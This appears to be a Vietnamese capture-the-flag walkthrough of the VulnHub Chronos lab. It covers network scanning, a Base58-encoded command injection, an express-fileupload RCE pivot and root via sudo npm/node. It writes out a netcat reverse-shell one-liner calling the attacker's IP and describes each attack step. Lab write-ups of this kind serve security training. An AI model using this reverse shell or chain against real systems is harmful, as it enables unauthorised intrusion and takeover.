 ## Chronos

![image](https://hackmd.io/_uploads/Bkzorp9Ekl.png)

Link truy cập và tải [lab](https://www.vulnhub.com/entry/chronos-1,735/)

### Discover

Dùng netdiscover scan để tìm máy vuln:

![image](https://hackmd.io/_uploads/By7OLTcE1x.png)

Phát hiện thấy IP 192.168.1.11 có tên "PCS Systemtechnik GmbH" rất lạ, dùng nmap scan host này được kết quả như trên. Do mình đang dùng Bridge mode nên scan sẽ có các máy khác trong LAN. 
Vì máy vuln Chronos mình cài đặt trên VirtualBox (do cài trên máy VMware bị lỗi), nên từ kết quả scan trên, 192.168.1.11 chính là IP của máy vuln Chronos.
### enum
Dùng nmap scan port:

![image](https://hackmd.io/_uploads/S12Ku6qE1g.png)

Scan sâu hơn 3 port 22,80,8000 xem sao: 

![image](https://hackmd.io/_uploads/H1CkKa9Nyg.png)

Scan xong ta thấy được chi tiết các service và version trên các port. Truy cập port 80 xem sao: 

![image](https://hackmd.io/_uploads/r1lD5pq4ke.png)

Dùng gobuster để dò các folder, file trên trang này: 

![image](https://hackmd.io/_uploads/r1ZumA54kl.png)

Không thu được gì thú vị, xem source trang web, ta thấy có đoạn script:
![image](https://hackmd.io/_uploads/rypWVC5NJl.png)

Có vẻ như là một request AJAX đến port 8000 trên máy vuln. Dựa vào nội dung "onreadystatechange", "innerHTML", đoạn script này có vẻ sẽ thay đổi nội dung trang web khi request AJAX thành công , do domain chronos.local chưa được định nghĩa, ta gán IP máy 192.168.1.11 cho domain này trong file host: 

![image](https://hackmd.io/_uploads/rk1aEC9E1l.png)

Lưu lại file và thử request lại trang web xem có gì thay đổi:

![image](https://hackmd.io/_uploads/SkgXUA5Nyg.png)

Có vẻ request thành công và hiển thị thời gian hiện tại trên trang web.

Truy cập riêng đoạn url trong đoạn script vừa rồi, truy cập trả về Permission Denied:

![image](https://hackmd.io/_uploads/BkbbpyiV1e.png)

![image](https://hackmd.io/_uploads/rkW_ygo4Jx.png)

Thử truy cập riêng chronos.local:8000, không có "Permission Denied" ở đây:

![image](https://hackmd.io/_uploads/rkfWyesEyx.png)

Có vẻ request cần thay đổi một chút, do ajax request ta vừa xem ở trên có chứa khá nhiều tham số, xem lại thấy có header User-agent:

![image](https://hackmd.io/_uploads/HyldDlloE1g.png)
Vì đoạn code bị obfuscate nên không rõ các đối số được tùy chỉnh như thế nào, bật inspect, vào network và reload lại trang ban đầu để kiểm tra request ajax: 

![image](https://hackmd.io/_uploads/ry5V-liEye.png)

Request không bị ban, truy cập kiểm tra Header:

![image](https://hackmd.io/_uploads/rJudZgsN1e.png)

Như ta thấy, phần header User-agent được đặt thành Chronos. Sử dụng curl (hoặc Burp) custom lại header ta truy cập được vào link mà không bị ban nữa:

![image](https://hackmd.io/_uploads/SkHmQxjVkl.png)

Đoạn format=... nhìn có vẻ khá giống với Base64, ném lên CyberChef thì nhận được giải mã là Base58:

![image](https://hackmd.io/_uploads/B1NxEloEke.png)

Đoạn Output từ base58 khá giống với các option format từ lệnh date trên linux:

![image](https://hackmd.io/_uploads/rkn1Igs4kg.png)

![image](https://hackmd.io/_uploads/BkwMSes4ye.png)

### RCE
Mình nghĩ ngay web này dính lỗi command injection, thử chèn vào đoạn lệnh ls -la rồi encode lại:

![image](https://hackmd.io/_uploads/H1_b5gsVyx.png)

![image](https://hackmd.io/_uploads/HkbecgsEyx.png)

Tuyệt vời, web dính command injection, rce ở đây thôi.
Sau nhiều lần thử các command reverse shell trên revshells.com. Có đoạn revshell sau là hoạt động: 
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.12 4444 > /tmp/f`

![image](https://hackmd.io/_uploads/SJW7H4oNJx.png)

Mã hóa lại bằng Base58, bật nc listener để nhận shell, sau đó gửi request với đoạn Base58 vừa tạo: 

![image](https://hackmd.io/_uploads/BybxL4oVJg.png)

![image](https://hackmd.io/_uploads/Hkrx84s41g.png)

Kiểm tra thư mục hiện tại, thấy có 4 file cấu thành trang web này:

![image](https://hackmd.io/_uploads/rJc2UEsNke.png)

Sau khi kiểm tra, thấy không có gì thú vị có thể khai thác được, dùng pwd thì biết được người dùng đang ở vị trí /opt/chronos, do thư mục /opt thường được sử dụng để cài đặt các app, "cd" ra ngoài thư mục thì phát hiện thêm một thư mục chronos-v2, bên trong chứa folder backend và frontend,  và một file index.html

![image](https://hackmd.io/_uploads/Hy9mYVj4Jl.png)

Có vẻ thú vị. Kiểm tra backend trước: 

![image](https://hackmd.io/_uploads/rk15HSjVyg.png)

Ta kiểm tra thì thấy có file express-fileupload 1.1.7. Sau khi search, lib này version này có chứa lỗ hổng dẫn đến RCE: 

![image](https://hackmd.io/_uploads/Skk5UBjN1x.png)

Vì hiện tại mình đang RCE máy này rồi nên suy nghĩ k biết RCE tiếp để làm gì :>

![image](https://hackmd.io/_uploads/HykyDrjNyl.png)

Tuy nhiên, sau khi kiểm tra các tiến trình đang chạy thì thấy chronos-v2 đang được chạy bởi người dùng khác với người dùng chạy chronos mà mình đang RCE: 

![image](https://hackmd.io/_uploads/HJpx_SjNyg.png)

Thú vị, có lý do để khai thác RCE lib fileupload mà mình tìm thấy bên trên. Dùng lệnh netstat để kiểm tra các kết nối trên hệ thống hiện tại:

![image](https://hackmd.io/_uploads/Hk-s_rsV1g.png)

![image](https://hackmd.io/_uploads/H1Y0dBjNye.png)

Ta phát hiện ra ngoài 2 port 22, 8000 từ scan nmap, còn có port 53 Dns, và port 8080. Do đó ta suy luận rằng web chronos-v2 đang chạy trên port 8080. 
Do chỉ chạy trên địa chỉ local 127.0.0.1 nên ta không thể truy cập từ máy kali được. Dùng curl trên kết nối rce hiện tại, mình xác nhận rằng chronos-v2 đang chạy trên port 8080 ở local: 

![image](https://hackmd.io/_uploads/HJdxcrsN1x.png)

Tải payload khai thác về và sửa lại thông tin IP máy kali và máy vuln: 

![image](https://hackmd.io/_uploads/HJxtaBjEke.png)

Lưu file và gửi qua máy vuln bằng python htt.server: 

![image](https://hackmd.io/_uploads/H1oM2Bi4kl.png)

![image](https://hackmd.io/_uploads/BkMm3riN1e.png)

![image](https://hackmd.io/_uploads/Byd72HsN1g.png)

Chạy file này sau khi bật nc lister máy kali port 8888, ta nhận được shell:

![image](https://hackmd.io/_uploads/HyGZ0SiVJe.png)

### priv to root with sudo perm
Tuyệt vời luôn :)) Mình đang ở trong 2 shell RCE 2 người dùng trên một hệ thống :> .Kiểm tra quyền sudo của người dùng imera này xem sao: 

![image](https://hackmd.io/_uploads/BywIRBo4kx.png)

Khá nguy hiểm, 2 lệnh npm và node được chạy với quyền root mà không cần nhập pass cho lệnh sudo (cái này chắc chủ ý đặt để sudo cho tiện đây mà :>).
Lên [gtfobin](https://gtfobins.github.io/) tìm vector khai thác với npm và node: 

![image](https://hackmd.io/_uploads/HkEEJIoV1e.png)

![image](https://hackmd.io/_uploads/HJ7qy8j41l.png)

Thử cả 2, đều cho ta priv lên người dùng root:
+ sudo npm:

![image](https://hackmd.io/_uploads/HymSfIsEJe.png)

+ sudo node:

![image](https://hackmd.io/_uploads/Hy4DzUoVyl.png)

Ta giải quyết xong bài lab!
